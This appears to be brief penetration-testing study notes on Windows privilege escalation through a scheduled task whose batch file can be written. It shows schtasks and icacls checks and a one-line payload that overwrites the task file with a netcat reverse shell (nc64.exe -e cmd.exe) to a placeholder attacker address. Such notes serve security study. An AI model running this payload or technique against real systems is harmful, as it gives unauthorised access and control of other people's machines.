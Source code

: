 # Example:

### Schtasks /query /tn vulntask /fo list /v

### Worth checking: Task to run, run as user.

### icacls c:\tasks\schtasks.bat (example)

#### Check file permissions on the executable. 

#### If our user has full access (f) or writing permissions, we insert the payload like:

### echo c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT > C:\tasks\schtasks.bat

### Start a listener, then you got yourself a shell!
